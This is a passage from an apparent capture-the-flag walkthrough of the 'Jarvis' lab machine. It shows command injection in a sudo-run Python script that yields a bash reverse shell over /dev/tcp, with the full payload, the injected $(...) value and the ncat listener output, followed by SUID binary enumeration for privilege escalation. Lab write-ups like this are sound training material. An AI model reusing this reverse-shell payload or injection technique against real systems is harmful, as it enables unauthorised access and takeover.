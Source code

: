 We see the command was substituted by the username `pepper`, and ping tried to resolve it as a hostname. This means that the command execution was successful. We can use this to execute a bash reverse shell as `pepper` user. Since some special char's are blocked, we'll write command to a script and execute it through injection.
```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.40/9001 0>&1"' > /tmp/shell.sh
chmod a+x /tmp/shell.sh
```
```
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(/tmp/shell.sh)
```

And we got a reverse shell as `pepper` user.
```
ncat -lvnp 9001

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: DA5C E37E CD6F D519 72A6 99B6 AF8E 6D94 4873 3ABD
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:55160.

pepper@jarvis:~$ whoami && id
pepper
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```

## Privilege Escalation
we could check for `SUID` binaries. we can look for `SUID` binaries using `find / -perm -4000 2>/dev/null`.
```
pepper@jarvis:~$ find / -perm -4000 -ls 2>/dev/null
  1310951     32 -rwsr-xr-x   1 root     root        30800 Aug 21  2018 /bin/fusermount
  1310809     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount
  1310906     60 -rwsr-xr-x   1 root     root        61240 Nov 10  2016 /bin/ping
  1312201    172 -rwsr-x---   1 root     pepper     174520 Feb 17  2019 /bin/systemctl
  1310810     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount
  1310807     40 -rwsr-xr-x   1 root     root        40536 May 17  2017 /bin/su
  1444734     40 -rwsr-xr-x   1 root     root        40312 May 17  2017 /usr/bin/newgrp
  1441873     60 -rwsr-xr-x   1 root     root        59680 May 17  2017 /usr/bin/passwd
  1441872     76 -rwsr-xr-x   1 root     root        75792 May 17  2017 /usr/bin/gpasswd
  1441870     40 -rwsr-xr-x   1 root     root        40504 May 17  2017 /usr/bin/chsh
  1453559    140 -rwsr-xr-x   1 root     root       140944 Jun  5  2017 /usr/bin/sudo
  1441869     52 -rwsr-xr-x   1 root     root        50040 May 17  2017 /usr/bin/chfn
  1574579     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
  1707587    432 -rwsr-xr-x   1 root     root       440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
  1578698     44 -rwsr-xr--   1 root     messagebus    42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```